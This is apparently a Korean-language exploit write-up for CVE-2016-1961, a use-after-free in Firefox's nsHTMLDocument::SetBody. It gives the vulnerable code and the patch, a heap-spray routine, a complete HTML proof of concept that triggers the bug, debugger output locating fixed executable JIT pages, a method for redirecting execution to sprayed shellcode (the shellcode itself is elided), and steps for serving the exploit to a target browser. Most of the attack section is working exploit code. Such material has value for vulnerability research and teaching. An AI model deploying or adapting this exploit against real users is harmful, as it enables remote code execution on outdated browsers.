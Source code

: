 # Firefox nsHTMLDocument SetBody Use-After-Free

## Information
- CVE : 2016-1961
- 해당 소프트웨어 : Mozilla Firefox (on Windows)
- 해당 버전 : < Firefox 45
- 취약점 유형 : Use-After-Free

## Root Cause
DOM 구조에서 body 태그를 할당하고 해제하는 과정에서 use-after-free 취약점이 발생한다. 근본적인 버그의 원인은 다음과 같다.

**dom/html/nsHTMLDocument.cpp:**
```c++
void
nsHTMLDocument::SetBody(nsGenericHTMLElement* newBody, ErrorResult& rv)
{
  Element* root = GetRootElement(); // root cause

  // The body element must be either a body tag or a frameset tag. And we must
  // have a html root tag, otherwise GetBody will not return the newly set
  // body.
  if (!newBody ||
      !newBody->IsAnyOfHTMLElements(nsGkAtoms::body, nsGkAtoms::frameset) ||
      !root || !root->IsHTMLElement() ||
      !root->IsHTMLElement(nsGkAtoms::html)) {
    rv.Throw(NS_ERROR_DOM_HIERARCHY_REQUEST_ERR);
    return;
  }

  // Use DOM methods so that we pass through the appropriate security checks.
  nsCOMPtr<Element> currentBody = GetBodyElement();
  if (currentBody) {
    root->ReplaceChild(* newBody, * currentBody, rv);
  } else {
    root->AppendChild(* newBody, rv);
  }
}
```

body 태그 혹은 iframe 태그 등으로 body element를 생성한 경우 이는 반드시 root 태그를 가지고 있어야 한다. mutation listener의 경우 DOM tree 구조상 root 태그를 참조할 수 있는데 만약 해당 태그가 해제된 경우 use-after-free 버그가 발생하게 된다. 해제된 태그들의 공간을 fake object로 채워야하는데 이는 다음과 같이 힙 스프레이를 하면 된다.
```js
for (var i = 1; i < 0x5c / 4; i++)
    fake_object[i] = unescape("%u4141%u4141");
fake_object[0] = unescape("%u4242%u4343");   // vtable

var fill_freed = [];
this.spray = () => {
    for (var i = 0; i < 0x1000; i++)
        fill_freed.push(fake_object.join(""));
};
```

## Patch
```patch
# HG changeset patch
# User Andrew McCreight <continuation@gmail.com>

Bug 1249377 - Hold a strong reference to |root| in nsHTMLDocument::SetBody. r=bz

diff --git a/dom/html/nsHTMLDocument.cpp b/dom/html/nsHTMLDocument.cpp
index 868a36a..cfd9014 100644
--- a/dom/html/nsHTMLDocument.cpp
+++ b/dom/html/nsHTMLDocument.cpp
@@ -1029,17 +1029,17 @@ nsHTMLDocument::SetBody(nsIDOMHTMLElement* aBody)
   ErrorResult rv;
   SetBody(static_cast<nsGenericHTMLElement*>(newBody.get()), rv);
   return rv.StealNSResult();
 }
 
 void
 nsHTMLDocument::SetBody(nsGenericHTMLElement* newBody, ErrorResult& rv)
 {
-  Element* root = GetRootElement();
+  nsCOMPtr<Element> root = GetRootElement();
 
   // The body element must be either a body tag or a frameset tag. And we must
   // have a html root tag, otherwise GetBody will not return the newly set
   // body.
   if (!newBody ||
       !newBody->IsAnyOfHTMLElements(nsGkAtoms::body, nsGkAtoms::frameset) ||
       !root || !root->IsHTMLElement() ||
       !root->IsHTMLElement(nsGkAtoms::html)) {
```

## PoC
```html
<html>
<head>

<script>

var ShellStage = new (function () {
/* stuff */
})();

function gc() {
    for (var i = 0; i < 0x10; i++)
        var g = new ArrayBuffer(0x1000000);
}

function main() {
    var f = document.createElement("iframe");
    document.body.appendChild(f);

    var doc = f.contentDocument;
    document.body.removeChild(f);

    doc.body.parentNode.removeChild(doc.body);

    var d = doc.createElement("div").appendChild(doc.createElement("div"));
    d.appendChild(doc.createElement("body"));

    var html = doc.documentElement;
    d.addEventListener("DOMSubtreeModified", function () {
        d.removeEventListener("DOMSubtreeModified", arguments.callee, false);

        for (var i = 0, n = html.childNodes.length; i < n; i++)
            html.removeChild(html.childNodes[0]);

        html.parentNode.removeChild(html);
        html = null;

        doc.appendChild(doc.createElement("html"));
        try {
            doc.body = doc.createElement("div");
        } catch (e) {
        }
        d.removeChild(d.childNodes[0]);

        gc();
        document.location.href = "javascript:ShellStage.spray(); document.location.href='http://google.com';";
        alert();

    }, false);

    doc.body = d.childNodes[0];
}
</script>
</head>

<body onload="main()">
</body>
</html>
```

## How to exploit?
크래시가 발생한 지점은 다음과 같다.
![crash](images/crash.png)
이전 취약점과 마찬가지로 잘못된 vtable을 참조하면서 크래시가 발생하게 되며, 이또한 JIT spray를 통해 익스플로잇할 수 있다. 해당 버전의 경우 여러 보호기법이 적용된 최신의 버전의 힙 매커니즘과 다르기 때문에 고정적으로 할당되는 JIT 페이지를 확인해야 한다. 이는 다음과 같다.
```
0:000> s -d 0x20000000 0x28000000 0x3c909090
2000002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2001002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2002002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2003002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2004002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2005002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2006002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2007002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2008002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2009002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
200a002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
...
27fa002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fb002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fc002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fd002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fe002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27ff002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d

0:000> !vprot 27fa002c  
BaseAddress:       27fa0000
AllocationBase:    27fa0000
AllocationProtect: 00000040  PAGE_EXECUTE_READWRITE
RegionSize:        00003000
State:             00001000  MEM_COMMIT
Protect:           00000040  PAGE_EXECUTE_READWRITE
Type:              00020000  MEM_PRIVATE
```

할당된 JIT 페이지들은 RWX 권한을 부여받은 것을 확인할 수 있다. 이러면 동일한 페이지 내에 스택을 할당하여 좀더 손쉽게 쉘코드를 작성할 수 있다. 브라우저의 힙 매커니즘이 크게 달라지지 않는다면 버전에 의존하지 않고 위와 같은 주소에 고정적으로 할당되는 것을 확인할 수 있었다. 즉 44.0.1 이하의 버전들에서 크게 차이나지 않는 경우 동일한 주소에 JIT 페이지가 존재하게 된다. 고로, fake object의 vtable 포인터를 위의 수 많은  JIT 페이지들의 주소로 설정하면 원하는 쉘코드를 실행할 수 있게 된다. 사용한 쉘코드는 이전 익스플로잇과 동일하다. 결과는 다음과 같다.
![poc](images/poc_44.0.1.png)

## How to run exploit?
> OS : Windows 8.1 64bit(or 32bit)  
> Firefox version : 32bit 44.0.1  
1) `exploit.html` 경로에 `python -m SimpleHTTPServer 8080` 명령어 실행
2) 대상 브라우저에서 해당 링크 접속

## Reference
- [ZDI-CAN-3574: nsHTMLDocument SetBody Use-After-Free RCE](https://bugzilla.mozilla.org/show_bug.cgi?id=1249377)
- [Writing JIT-Spray Shellcode for fun and profit](https://dl.packetstormsecurity.net/papers/shellcode/Writing-JIT-Spray-Shellcode.pdf)
- [Flash JIT – Spraying info leak gadgets](http://zhodiac.hispahack.com/my-stuff/security/Flash_Jit_InfoLeak_Gadgets.pdf)